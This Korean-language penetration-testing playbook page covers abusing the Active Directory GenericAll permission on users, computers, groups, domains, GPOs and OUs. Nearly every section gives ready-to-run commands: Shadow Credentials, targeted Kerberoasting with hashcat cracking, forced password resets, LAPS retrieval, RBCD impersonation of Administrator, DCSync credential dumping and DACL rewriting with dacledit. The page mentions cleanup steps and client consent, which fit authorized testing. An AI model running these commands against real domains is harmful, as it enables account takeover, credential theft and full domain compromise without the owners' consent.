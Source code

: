 # GenericAll

* 대상의 거의 모든 액티브 디렉토리 특성을 READ/WRITE 할 수 있는 권한. 사실상 대상의 소유권한(Owner Rights)을 가지고 있는 것이나 다름 없다. 대상의 종류와 상관 없이 (유저, 컴퓨터, 그룹, 도메인) 사실상 대상을 바로 장악할 수 있다.
* 공식 액티브 디렉토리 권한

대상에 따라 `GenericAll` DACL을 악용할 수 있는 방법도 다르다.

* 유저: 계정 장악
* 컴퓨터: 머신 계정 장악 + 로컬 관리자 권한 획득
* 그룹: 그룹에 공격자 유저 추가
* 도메인: DCSync 기능 사용 가능

<figure><img src="../../.gitbook/assets/genericAll-FullControl.png" alt=""><figcaption></figcaption></figure>

## 악용 - 유저

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp (1).png" alt=""><figcaption></figcaption></figure>

1. Shadow Credentials: `msDS-KeyCredentialsLink` 에 공격자 공개 키를 추가한 뒤, PKINIT을 이용해 사용자 인증을 한다
2. Targeted Kerberoast: 대상 유저 계정에 SPN을 추가한 뒤 해당 유저만 Kerberoasting 공격을 실행한다
3. Force Change Password: 대상 유저 계정의 비밀번호를 강제로 바꾼다

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

### Targeted Kerberoast

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git

python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse

hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### Force Change Password

```
# 윈도우 머신 필요. TODO: Impacket이나 다른 툴 알아보기 
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

## 악용 - 컴퓨터

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp.png" alt=""><figcaption></figcaption></figure>

다음과 같은 공격으로 머신 계정을 장악한다.

1. Retrieve LAPS
2. RBCD
3. Shadow Credentials

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

### RBCD

```
# 공격 
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action write domain.com/user:pass
getST.py -spn CIFS/targetcomp.domain.com -impersonate Administrator domain.com/'TEST1337$':'SUPERDUPERLONGPASSWD31337YOHEY#'

# 마무리 후 클린업 
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action remove domain.com/user:pass
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass -delete
```

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

## 악용 - 그룹

* 유저 그룹에 도메인 유저를 추가할 수 있는 `AddMember` 권한을 얻은 것이나 다름 없기에 그룹에 공격자의 유저를 추가하면 된다.

```
# 윈도우 머신 필요. TODO: Impacket 혹은 리눅스 툴 알아보기 
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

## 악용 - 도메인

다음과 같은 공격으로 컴퓨터 및 도메인을 장악한다.

1. DCSync: `GenericAll` 의 경우 `AllExtendedRights` 권한을 포함한다. 이 권한은 `DS-Replication-Get-Changes` 및 `DS-Replication-Get-Changes-All` 권한을 포함하는데, 이 권한을 갖고 있다면 DCSync를 실행할 수 있다.
2. LAPS: LAPS 비밀번호들을 읽어올 수 있다.
3. DCSync

### DCSync

```
cme smb <dc> -u user -p pass --ntds [vss,drsuapi]
secretsdump.py domain.com/user:pass@<dc>
```

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

## 악용 - GPO

<figure><img src="../../.gitbook/assets/genericAll-gpo-config.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-genericall-gpo-real.png" alt=""><figcaption></figcaption></figure>

* 정확히 GenericAll 은 아니지만, 가장 많은 권한을 부여할 경우 GenericWrite, WriteOwner, WriteDACL 권한을 부여받을 수 있다.
  * GPO Enforced + Child Objects with Block Inheritance DISABLED 의 경우 스크린샷처럼 점선이 아닌 실선으로 나타나는데, 이때는 악용이 가능한 상태다. GPO Enforced 와 Block Inheritance 관련된 레퍼런스가 있으나, 너무 길어질까봐 생략한다.
* GPO에 따라 다르겠지만, 위 GPO의 경우 Domain Users 및 Domain Computers 에 링크가 된 상태다. 따라서 Evil GPO 형식의 공격이 가능하다.
* 컴퓨터의 경우 리버스쉘을 받거나, 로컬 관리자 유저 등을 추가할 수 있다. 단, 실제 모의해킹에서 GPO 관련된 공격은 최대한 자제하고, 고객사의 동의를 얻는 것이 좋다. GPO 잘못 건드렸다가 고객사의 모든 도메인 유저와 도메인 컴퓨터들을 망쳐버린 뒤 수억원의 소송에 휘말리기 싫다면 말이다.
  * GPO Abuse 의 문제점은, 공격 자체는 쉬운데 그걸 되돌리기가 까다롭다는 것이다. 따라서 실제 모의해킹시 잘 사용되지 않는다.

```
https://github.com/Hackndo/pyGPOAbuse.git
```

* 실제 모의해킹에서도 GPO Abuse 는 제대로 진행하지 않기에 이 플레이북에서도 실습은 패스한다.

## 악용 - OU와 Containers

<figure><img src="../../.gitbook/assets/genericAll-OU-Containers-config.png" alt=""><figcaption></figcaption></figure>

* OU나 Container에 GenericAll 등의 권한이 있을 경우 DACL을 추가하거나 수정하는 형식으로 공격자 유저 계정에 추가적인 권한을 부여할 수 있다.
* 이때, `Inheritance` 를 이용해 OU나 Container에 속하는 모든 객체들에게 DACL이 수정되기 때문에 꼭 되돌리기를 사용해야한다.

```
# DACL 수정 
dacledit.py -action write -rights FullControl -inheritance -principal 'JKHOLER' -target-dn 'OUDistinguishedName' 'domain'/'user':'password'

# 예시) DaclEdit 을 이용해 모든 컴퓨터 머신 계정들에게 FullControl 권한 획득 
dacledit.py -action write -rights FullControl -principal 'abuse' -inheritance -target-dn 'CN=Computers,DC=choi,DC=local' choi.local/abuse:'Password123!'

# 예시) FullControl 을 얻은 이후 머신 계정을 향한 ShadowCredentials 공격 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target 'wkstn01$' --action add

# 되돌리기 
dacledit.py -action restore -file dacledit.bak domain.com/user:pass
```
